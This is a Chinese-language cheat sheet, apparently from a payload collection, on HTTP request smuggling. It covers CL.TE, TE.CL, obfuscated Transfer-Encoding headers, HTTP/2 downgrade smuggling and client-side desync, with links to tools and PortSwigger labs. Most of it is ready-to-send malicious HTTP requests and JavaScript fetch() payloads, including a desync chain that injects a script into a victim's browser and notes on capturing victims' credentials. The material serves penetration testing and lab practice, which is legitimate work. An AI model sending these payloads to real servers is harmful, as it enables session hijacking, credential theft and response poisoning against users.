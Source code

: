 # 请求走私

> 当多个“事物”处理请求，但在确定请求开始/结束的位置上存在分歧时，就会发生HTTP请求走私。这种分歧可以被用来干扰另一个用户的请求/响应或绕过安全控制。它通常是由于优先考虑不同的HTTP头（Content-Length与Transfer-Encoding）、处理格式错误的头的差异（例如是否忽略带有意外空格的头部）、从较新协议降级请求，或者由于部分请求超时时机不同和应该丢弃的差异而发生。

## 摘要

* [工具](#工具)
* [CL.TE漏洞](#cl.te-漏洞)
* [TE.CL漏洞](#te.cl-漏洞)
* [TE.TE行为：混淆TE头](#te.te-行为-混淆-te头)
* [参考资料](#参考资料)

## 工具

* [HTTP请求走私者 / BApp商店](https://portswigger.net/bappstore/aaaa60ef945341e8a450217a54a11646)
* [走私者](https://github.com/defparam/smuggler)
* [简单HTTP走私者生成器 CL.TE TE.CL](https://github.com/dhmosfunk/simple-http-smuggler-generator) > 该工具不提供自动化利用。你必须识别注入点并手动利用它！

## 关于CL.TE | TE.CL漏洞

如果你想手动利用HTTP请求走私，你会遇到一些问题，特别是在TE.CL漏洞中，你必须计算第二个请求（恶意请求）的块大小，正如portswigger所建议的`手动修复请求走私攻击中的长度字段可能会有些棘手。`因此，你可以使用[简单HTTP走私者生成器 CL.TE TE.CL](https://github.com/dhmosfunk/simple-http-smuggler-generator)，手动利用CL.TE TE.CL漏洞，并了解这个漏洞是如何工作的以及你可以如何利用它。这个工具只为你提供具有有效块大小的第二个请求（TE.CL），但不提供自动化利用。你必须识别注入点并手动利用它！

## CL.TE漏洞

> 前端服务器使用Content-Length头，后端服务器使用Transfer-Encoding头。

```powershell
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

示例：

```powershell
POST / HTTP/1.1
Host: domain.example.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

挑战: https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

## TE.CL漏洞

> 前端服务器使用Transfer-Encoding头，后端服务器使用Content-Length头。

```powershell
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

示例：

```powershell
POST / HTTP/1.1
Host: domain.example.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86
Content-Length: 4
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
x=1
0


```

:warning: 要使用Burp Repeater发送此请求，您首先需要转到Repeater菜单并确保未选中“更新Content-Length”选项。您需要在最后的0之后包含尾随序列\r\n。

挑战：https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

## TE.TE行为：混淆TE头

> 前端和后端服务器都支持Transfer-Encoding头，但可以通过某种方式混淆头部，诱导其中一个服务器不处理它。

```powershell
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[
]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
```

挑战：https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header

## HTTP/2请求走私

如果机器将您的HTTP/2请求转换为HTTP/1.1，您可以将无效的内容长度头、传输编码头或新行（CRLF）走私到转换后的请求中，则可能会发生HTTP/2请求走私。如果在HTTP/2头中隐藏了HTTP/1.1请求，也可以在对HTTP/2请求的GET请求中发生HTTP/2请求走私。

```
:method GET
:path /
:authority www.example.com
header ignored\r\n\r\nGET / HTTP/1.1\r\nHost: www.example.com
```

挑战: https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling

## 客户端同步失效

在某些路径上，服务器不期望收到POST请求，将其视为简单的GET请求，忽略有效载荷，例如：

```
POST / HTTP/1.1
Host: www.example.com
Content-Length: 37

GET / HTTP/1.1
Host: www.example.com
```

可能被当作两个请求处理，而实际上应该只有一个。当后端服务器响应两次时，前端服务器会假设只有第一个响应与此请求相关。

为了利用这一点，攻击者可以使用JavaScript触发受害者向易受攻击的网站发送POST请求：

```javascript
fetch('https://www.example.com/', {method: 'POST', body: "GET / HTTP/1.1\r\nHost: www.example.com", mode: 'no-cors', credentials: 'include'})
```

这可以用于：

* 让易受攻击的网站在攻击者可以访问的地方存储受害者的凭据
* 让受害者向网站发送漏洞（例如，对于攻击者无法访问的内部网站，或者为了使攻击更难归因）
* 让受害者执行任意JavaScript，就像它来自网站一样

例如：

```javascript
fetch('https://www.example.com/redirect', {
    method: 'POST',
        body: `HEAD /404/ HTTP/1.1\r\nHost: www.example.com\r\n\r\nGET /x?x=<script>alert(1)</script> HTTP/1.1\r\nX: Y`,
        credentials: 'include',
        mode: 'cors' // 抛出错误而不是遵循重定向
}).catch(() => {
        location = 'https://www.example.com/'
})
```

告诉受害者浏览器向www.example.com/redirect发送POST请求。这将返回一个被CORS阻止的重定向，并导致浏览器执行catch块，转到www.example.com。

www.example.com现在错误地处理了POST正文中的HEAD请求，而不是浏览器的GET请求，并在回复下一个误解的第三个（`GET /x?x=<script>...`）请求之前返回404未找到和内容长度，最后是浏览器的实际GET请求。
由于浏览器只发送了一个请求，它接受对HEAD请求的响应作为对其GET请求的响应，并将第三个和第四个响应解释为响应的正文，从而执行攻击者的脚本。

挑战：https://portswigger.net/web-security/request-smuggling/browser/client-side-desync/lab-client-side-desync

## 参考资料

* [PortSwigger - 请求走私教程](https://portswigger.net/web-security/request-smuggling) 和 [PortSwigger - 请求走私重生](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn)
* [HTTP请求走私入门指南 - Busra Demir - 2020年10月16日](https://www.cobalt.io/blog/a-pentesters-guide-to-http-request-smuggling)
* [高级请求走私 - PortSwigger](https://portswigger.net/web-security/request-smuggling/advanced#http-2-request-smuggling)
* [浏览器驱动的同步失效攻击：HTTP请求走私的新前沿 - James Kettle - 2022年8月10日](https://portswigger.net/research/browser-powered-desync-attacks)